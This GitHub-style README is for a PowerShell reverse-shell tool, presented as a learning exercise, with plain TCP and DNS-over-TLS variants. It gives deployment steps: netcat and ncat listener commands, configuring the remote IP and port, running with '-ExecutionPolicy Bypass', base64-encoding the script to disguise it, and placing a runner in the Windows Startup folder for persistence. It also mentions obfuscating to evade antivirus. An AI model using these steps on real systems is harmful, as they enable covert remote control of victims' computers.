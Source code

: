 # PowerShell Reverse Shell

This project is a learning exercise inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). It demonstrates two variations of a reverse shell implemented in PowerShell:

1. A **basic reverse shell**.
2. An **advanced reverse shell** utilizing DNS-over-TLS (DoT) for a more secure connection with the server.

## Disclaimer

**Warning:** This project is strictly for educational purposes. Unauthorized use against systems without explicit permission is illegal and unethical. Always obtain proper authorization before deploying this tool.

## Features

### Basic Reverse Shell

- Establishes a reverse TCP connection to a specified IP and port.
- Executes commands from the remote server and returns output.

### Secure Reverse Shell (DNS-over-TLS)

- Utilizes DNS-over-TLS (DoT) for a more secure communication channel.
- Hides traffic in DNS queries to bypass some network-level filtering.

## Requirements

- **Operating System:** Windows with PowerShell installed.
- **Network:** Ability to connect to the remote server.
- For the DNS-over-TLS version:
  - DNS server configured for DoT communication.

## Usage

### Basic Reverse Shell

1. **Set Up the Listener on the Remote Server:**

   - Use a tool like Netcat to listen for incoming connections:

     ```bash
     nc -lvnp [PORT]
     ```

   - Replace `[PORT]` with the port number you intend to use.

2. **Configure the Script:**

   - Set the `$remoteIP` and `$remotePort` variables in the script:

     ```powershell
     $remoteIP = "[REMOTE_IP]"
     $remotePort = [PORT]
     ```

   - Replace `[REMOTE_IP]` and `[PORT]` with the appropriate values.

3. **Execute the Script:**

   - Run the PowerShell script:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell.ps1
     ```

### Secure Reverse Shell (DNS-over-TLS)

1. **Set Up a Secure Listener:**

   - Use Ncat (from the Nmap suite) to listen for incoming SSL connections (You can also use netcat which has an unmodifiable buffer of 4096 bytes):

     ```bash
     ncat --ssl -lnvp [PORT_NUMBER]
     ```

   - Replace `[PORT_NUMBER]` with the port number you intend to use.

2. **Execute the Script:**

   - Run the secure reverse shell:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell-dns-tls.ps1
     ```

### Make reverseshell run on every startup

1. **Encrypt your reverseshell:**

    *Make Sure You Entered the IP and Port number first*
    
    ```powershell
    $c = get-content -path .\powershell-reverseshell-dns-tls.ps1
    $bytes = [system.text.encoding]::unicode.getbytes($c)
    $encrypt = [convert]::tobase64string($bytes)
    set-content -path .\powershell-encrypted.bin -value $encrypt
    ```
    *encrypt the decoder.ps1 file the same way*

2. **Store them in User's Temp Directory:**

    ```bash
    %USERPROFILE%\AppData\Local\Temp
    ```

3. **Store runner.cmd file in:**

    ```bash
    %APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup
    ```


## Security Considerations

- **Antivirus Detection:** Both scripts may trigger antivirus software. Adjustments or obfuscations might be necessary for testing in controlled environments.
- **Ethical Use:** Deploy these tools only on systems where you have explicit permission for penetration testing.

## Acknowledgments

This project is inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). Special thanks to the original creator for providing a solid foundation.

## License

This project is licensed under the [GPL-3.0 License](LICENSE).
